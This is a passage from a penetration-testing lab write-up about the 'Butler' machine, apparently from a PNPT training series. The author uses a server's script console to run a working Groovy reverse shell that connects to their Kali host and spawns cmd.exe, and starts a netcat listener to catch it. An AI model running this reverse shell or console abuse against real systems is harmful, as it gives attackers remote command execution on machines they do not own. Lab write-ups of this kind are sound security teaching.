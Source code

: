 ![Image](/assets/img/WriteUp/PNPT/Butler/9.png){: width="700" height="400" }

The script console seems like something I can use because I can run Groovy script on the server. I saw the reverse shell example in Groovy on the Github page. Then all I have to do is start a listener on my Kali and modify the script and click Run.

Groovy reverse shell script for Windows
~~~
String host="192.168.138.4";
int port=4321;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

~~~


I start my netcat listener after modifying the script.
~~~
┌──(emvee㉿kali)-[~]
└─$ nc -lvp 4321            
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4321
Ncat: Listening on 0.0.0.0:4321

~~~

I click on Run in the browser to spawn a reverse shell.
![Image](/assets/img/WriteUp/PNPT/Butler/10.png){: width="700" height="400" }
